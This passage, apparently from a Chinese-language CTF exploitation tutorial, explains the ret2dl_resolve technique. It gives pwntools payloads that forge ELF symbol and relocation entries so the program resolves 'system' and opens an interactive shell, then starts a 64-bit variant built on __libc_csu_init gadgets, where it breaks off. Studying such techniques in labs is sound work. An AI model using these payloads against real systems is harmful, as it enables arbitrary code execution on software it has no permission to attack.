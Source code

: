 ```python
fake_st_other = 0
fake_st_shndx = 0
elf_sym = p32(fake_st_name)+p32(fake_st_valve)+p32(fake_st_size)+p8(fake_st_info)+p8(fake_st_other)+p16(fake_st_shndx)

payload2 = p32(0xdeadbeef)
payload2 += p32(plt0)+p32(reloc_index)+'aaaa'
payload2 += p32(base- 4+0x80)+'aaaa'+'aaaa'     #用于补全
payload2 += elf_rel
payload2 += 'a'*align
payload2 += elf_sym 
payload2 += "system\x00"
payload2 += 'a'*(0x80-len(payload2))
payload2 += cmd
payload2 += 'a'*(0x100-len(payload2))

p.sendline(payload2)
p.interactive()
```

## X64

与32位不同，在64位中此函数的名称为\_dl_runtime_resolve_xsavec；但是无论是在32位程序或者是64位程序中这个函数的参数都是一样的：_dl_runtime_resolve_xsavec(link_map,reloc_arg)。这里的reloc_arg和32位的有所不同，不再代表偏移而是代表索引

### no relro

思路同32位，在bss段上伪造dynstr

![image-20220402105325494](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220402105325494.png)

```python
#coding=utf-8
from pwn import *
context.log_level='debug'
context.arch='amd64'

p=process('./main_no_relro_64')
elf=ELF('./main_no_relro_64')
bss_addr=elf.bss()
'''
text:0000000000400750 loc_400750:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400750                 mov     rdx, r15
.text:0000000000400753                 mov     rsi, r14
.text:0000000000400756                 mov     edi, r13d
.text:0000000000400759                 call    qword ptr [r12+rbx*8]  //r12 read_got ;rbx==0
.text:000000000040075D                 add     rbx, 1
.text:0000000000400761                 cmp     rbp, rbx               
.text:0000000000400764                 jnz     short loc_400750       //相等；rbp==1
.text:0000000000400766
.text:0000000000400766 loc_400766:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400766                 add     rsp, 8
.text:000000000040076A                 pop     rbx          //rbx==0
.text:000000000040076B                 pop     rbp          //rbp==1
.text:000000000040076C                 pop     r12          //read_got
.text:000000000040076E                 pop     r13          //read1参
.text:0000000000400770                 pop     r14          //read2参
.text:0000000000400772                 pop     r15          //read3参
.text:0000000000400774                 retn
'''

libc_csu_init_gadget_start1_addr=0x40076A
libc_csu_init_gadget_start2_addr=0x400750
```